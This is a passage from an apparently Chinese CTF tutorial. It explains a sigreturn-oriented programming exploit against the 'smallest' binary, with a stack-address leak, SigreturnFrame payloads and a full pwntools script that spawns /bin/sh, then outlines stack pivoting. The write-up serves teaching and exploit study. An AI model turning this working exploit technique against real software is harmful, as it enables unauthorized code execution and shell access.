    程序跳转到0x4000B3继续执行，rax为1表示调用函数write(1,esp,0x400h)，此时会输出栈内存地址，但是由于此时栈中的第一个内容还是第三个main\_addr,故需要读取8到16的内容
    
    接着执行ret，此时程序返回的是main\_addr,而esp指向的地址就是我们得到的栈地址
    
    [](https://xzfile.aliyuncs.com/media/upload/picture/20231129204919-b6799d94-8eb5-1.jpg)
    
    对应的exp：
    
    ```plain
    # -*- coding: utf-8 -*-
    from pwn import *
    
    context(os='linux',arch='amd64',log_level='debug')
    p = process('./smallest')
    
    main_addr = 0x04000B0
    syscall_addr = 0x04000BE
    
    #三次main_addr是为了构造后面三次跳转
    payload = p64(main_addr) + p64(main_addr) + p64(main_addr)
    p.send(payload)
    #程序成功将三个地址写入栈中，此时执行ret后将程序返回至main_addr,而esp指向第二个main_addr
    #进行新一轮的read，发送3的目的是将当前esp(也就是第二个的值进行更改),由于程序是小端存储，故此时的0x04000B0会变成0x04000B3,这个地址正好对应的是mov  edx, 400h，跳过了xor rax,rax(将rax的值变成0)，read函数的特性，写入了一个字符后，将写入的长度存放在rax，也就是为1，接着执行到ret，将程序返回至0x04000B3，此时esp指向的是刚开始的第三个main_addr
    #由于rax里面的值为1，正好是write函数的系统调用号，也就意味着接下来执行的是write函数,而需要输出的首地址是esp，此时第一个存放的是main_addr,接下来的8到16就是我们需要得到的地址
    #输出地址后，程序执行ret，此时程序又返回到main_addr,程序重新开始
    p.send('\xb3')
    #得到栈地址
    stack_addr = u64(p.recv()[8:16])
    print("stack addr:"+hex(stack_addr))
    ```
    
    成功得到栈地址
    
*   使用pwntools的SigreturnFrame构造read(0,stack\_addr,0x400)
    
    ```plain
    #构造frame,表示read(0,stack_addr,0x400)
    frame = SigreturnFrame(kernel = "amd64")
    frame.rax = constants.SYS_read
    frame.rdi = 0x0
    frame.rsi = stack_addr
    frame.rdx = 0x400
    frame.rsp = stack_addr
    frame.rip = syscall_addr
    payload = p64(main_addr) + p64(0) + str(frame)
    p.send(payload)
    ```
    
    因为程序是重新在main\_addr开始执行，发送payload后使用read函数将payload写入栈中，此时的栈情况如图<5>
    
    此时的esp指向的是我们写入的main\_addr,ret后程序继续返回到main\_addr,而esp指向的是下一个地址，程序继续调用read函数，我们发送payload写入栈中
    
    ```plain
    #通过控制输入的字符数量，调用sigreturn
    payload = p64(syscall_addr) + "\x00"*(15-8)
    p.send(payload)
    ```
    
    此时的栈情况如图<6>：
    
    esp指向我们写入的syscall\_addr地址，由于我们成功写入了15个字符，故此时的eax为15，程序ret返回到syscall\_addr处进行系统调用，此时的系统调用号存储在eax正好是15，调用sigreturn，根据frame设定的结构，程序接下来会执行read(0,stack\_addr,0x400)
    
*   使用pwntools的SigreturnFrame构造shell
    
    此时函数执行的是read(0,stack\_addr,0x400)，需要等待我们的输入，我们继续构造frame(execve)
    
    ```plain
    frame = SigreturnFrame(kernel = "amd64")
    frame.rax = constants.SYS_execve
    frame.rdi = stack_addr + 0x150    #binsh字符串的地址，后面会构造
    frame.rsi = 0x0
    frame.rdx = 0x0
    frame.rsp = stack_addr
    frame.rip = syscall_addr
    frame_payload = p64(main_addr) + p64(0) +str(frame)
    payload = frame_payload + (0x150-len(frame_payload))*"\x00" + "/bin/sh\x00"
    p.send(payload)
    ```
    
    将payload写入到栈中，此时的栈情况如图<7>
    
    此时esp指向的是我们写入的main\_addr,执行ret，返回至main\_addr,而esp指向下一个地址，即p64(0)处，继续调用read，等待我们输入payload
    
    ```plain
    payload = p64(syscall_addr) + "\x00"*(15-8)
    p.send(payload)
    ```
    
    此时栈情况如图<8>
    
    esp指向我们写入的syscall\_addr地址，由于我们成功写入了15个字符，故此时的eax为15，程序ret返回到syscall\_addr处进行系统调用，此时的系统调用号存储在eax正好是15，调用sigreturn，根据frame设定的结构，程序接下来会执行system(execve)
    
    [](https://xzfile.aliyuncs.com/media/upload/picture/20231129205213-1e4c11d6-8eb6-1.jpg)
    
*   完整exp
    
    ```plain
    # -*- coding: utf-8 -*-
    from pwn import *
    
    context(os='linux',arch='amd64',log_level='debug')
    p = process('./smallest')
    
    main_addr = 0x04000B0
    syscall_addr = 0x04000BE
    
    #三次main_addr是为了构造后面三次跳转
    payload = p64(main_addr) + p64(main_addr) + p64(main_addr)
    p.send(payload)
    #gdb.attach(p)
    #程序成功将三个地址写入栈中，此时执行ret后将程序返回至main_addr,而esp指向第二个main_addr
    #进行新一轮的read，发送3的目的是将当前esp(也就是第二个的值进行更改),由于程序是小端存储，故此时的0x04000B0会变成0x04000B3,这个地址正好对应的是mov  edx, 400h，跳过了xor rax,rax(将rax的值变成0)，read函数的特性，写入了一个字符后，将写入的长度存放在rax，也就是为1，接着执行到ret，将程序返回至0x04000B3，此时esp指向的是刚开始的第三个main_addr
    #由于rax里面的值为1，正好是write函数的系统调用号，也就意味着接下来执行的是write函数,而需要输出的首地址是esp，此时第一个存放的是main_addr,接下来的8到16就是我们需要得到的地址
    #输出地址后，程序执行ret，此时程序又返回到main_addr,程序重新开始
    p.send('\xb3')
    #得到栈地址
    stack_addr = u64(p.recv()[8:16])
    print("stack addr:"+hex(stack_addr))
    
    #构造frame,表示read(0,stack_addr,0x400)
    frame = SigreturnFrame(kernel = "amd64")
    frame.rax = constants.SYS_read
    frame.rdi = 0x0
    frame.rsi = stack_addr
    frame.rdx = 0x400
    frame.rsp = stack_addr
    frame.rip = syscall_addr
    payload = p64(main_addr) + p64(0) + str(frame)
    p.send(payload)
    
    #通过控制输入的字符数量，调用sigreturn
    payload = p64(syscall_addr) + "\x00"*(15-8)
    p.send(payload)    
    #疑问:之前构造farme时，我们只往栈上写了8个字节的0，现在写入15个字节，那么多余的7个字节不会淹没构造的frame(read)吗？这可能与pwntools实现的SigreturnFrame内部的具体结构有关
    
    #输入15个字节后，此时rax是15，程序执行完read之后，ret跳转到syscall，执行sigreturn系统调用，根据frame设定的结构，程序接下来会执行read(0,stack_addr,0x400)
    #疑问：sigreturn以什么为依据来确定栈中的sigframe，怎么确定使用的是我们给定的frame(read)
    
    #read(0,stack_addr,0x400)执行完之后，等待数据的输入，此时我们需要输入构造的frame(execve),至于binsh字符串可以将它放在栈的后面部分，只要rdi能够正确的指向他的地址即可
    #构造拿shell的frame
    frame = SigreturnFrame(kernel = "amd64")
    frame.rax = constants.SYS_execve
    frame.rdi = stack_addr + 0x150    #binsh字符串的地址，后面会构造
    frame.rsi = 0x0
    frame.rdx = 0x0
    frame.rsp = stack_addr
    frame.rip = syscall_addr
    frame_payload = p64(main_addr) + p64(0) +str(frame)
    payload = frame_payload + (0x150-len(frame_payload))*"\x00" + "/bin/sh\x00"
    p.send(payload)
    
    payload = p64(syscall_addr) + "\x00"*(15-8)
    p.send(payload)
    
    p.interactive()
    ```
    

## 花式栈溢出技巧-stack pivoting

### 原理

栈迁移：劫持栈指针指向攻击者所能控制的内存处，然后再在相应的位置进行 ROP

### 使用场景

*   可以控制的栈溢出的字节数较少，难以构造较长的 ROP 链
*   开启了 PIE 保护，栈地址未知，我们可以将栈劫持到已知的区域。
*   其它漏洞难以利用，我们需要进行转换，比如说将栈劫持到堆空间，从而在堆上写 rop 及进行堆漏洞利用

### 使用要求

*   可以控制程序执行流。
    
*   可以控制 sp 指针。一般来说，控制栈指针会使用 ROP，常见的控制栈指针的 gadgets 一般是
    
    ```plain
    pop rsp/esp
    ```
    
    还可以使用libc\_csu\_init 中的 gadgets
    
*   存在可以控制内容的内存，一般有如下:
    
    *   bss 段。由于进程按页分配内存，分配给 bss 段的内存大小至少一个页 (4k，0x1000) 大小。然而一般 bss 段的内容用不了这么多的空间，并且 bss 段分配的内存页拥有读写权限。
        
    *   heap。但是这个需要我们能够泄露堆地址
        

## 总结

深入解析栈溢出与ROP技术需要理解栈的结构和工作原理，以及目标程序的内存布局和代码执行流程。攻击过程涉及寻找漏洞点、构建恶意输入、控制程序流程，并最终实现攻击目标。详细解析栈溢出与ROP技术包括缓冲区溢出的原理、栈帧结构、返回地址注入、ROP链的构建和利用等，其他方法待更新....
